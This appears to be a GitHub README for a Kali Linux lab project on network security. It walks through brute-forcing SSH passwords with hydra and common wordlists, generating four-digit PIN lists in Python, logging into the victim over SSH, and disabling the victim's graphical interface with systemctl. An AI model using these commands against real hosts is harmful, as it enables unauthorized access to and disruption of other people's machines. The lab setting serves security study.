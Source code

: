 # CyberSleuth-ExploringNetworkSecurity
---
##### This project is intended to run on Kali Linux virtual machine.
### Instructions
To connect physical machines using Kali Linux on VirtualBox, we had to ensure that the virtual machines have access to the same network. A bridged adapter in networking connects the virtual machine directly to the physical network, enabling it to appear as a distinct device on the network, sharing the host's IP address. Once the VMs are connected, the following steps can be followed.
### 1. Password Decryption with Hydra
#### Method 1: Alphanumerical Password Lists
We will use comprehensive collection of commonly used passwords, to aid in our password decryption efforts. fasttrack.txt and rockyou.txt are two popular password lists.

Navigate to this diectory:
```bash
cd /usr/share/wordlists
```
Run hydra to test different possible passwords.
```bash
hydra -l user -P fasttrack.txt ssh://target_ip -V -F
```
#### Method 2: Numerical Password Guessing
Generate all possible 4 digit passwords combinations with this python script
```python
with open("four_digit_combinations.txt", "w") as f:
   	for i in range(10000):
       	f.write("{:04d}\n".format(i))
```
Execute .py file in terminal
```bash
python four_digit_generator.py
```
Hydra brute-force attack
```bash
hydra -l user -P four_digit_combinations.txt -t 4 -V -o hydra_output.txt ssh://target_ip
```
### 2. Using SSH to Gain Control of a Host Computer
Once the attacker has obtained valid credentials, they can use SSH to connect to the target host computer. The command to initiate an SSH connection is:
```bash
ssh username@target_ip
```
Upon connecting, SSH prompts for the password associated with the provided username. The attacker enters the obtained password.

### 3. Disabling the Graphical User Interface (GUI) 
Now that attacker has gained access to victim machine there is scope for damage.
To disable GUI temporarily:
```bash
sudo systemctl isolate multi-user.target
```
To enable the GUI temporarily:
```
sudo systemctl isolate graphical.target
```
